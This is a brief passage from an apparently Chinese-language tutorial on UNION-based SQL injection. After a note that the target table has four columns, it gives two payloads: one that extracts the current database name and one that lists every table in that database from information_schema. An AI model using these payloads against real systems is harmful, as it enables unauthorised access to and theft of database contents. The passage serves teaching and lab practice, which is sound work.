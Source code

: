 ![&#x53EF;&#x77E5;&#x5F53;&#x524D;&#x8868;&#x6709;4&#x5217;](../.gitbook/assets/5_3%20%281%29.png)

### 获取当前数据库名称

```sql
  union select 1,database(),3,4
```

![&#x53EF;&#x77E5;&#x5F53;&#x524D;&#x8868;&#x6709;4&#x5217;](../.gitbook/assets/5_4.png)

获取当前表所在数据库的所有表

```sql
  union select 1,group_concat(table_name),3,4 from information_schema.tables where table_schema = database()
```

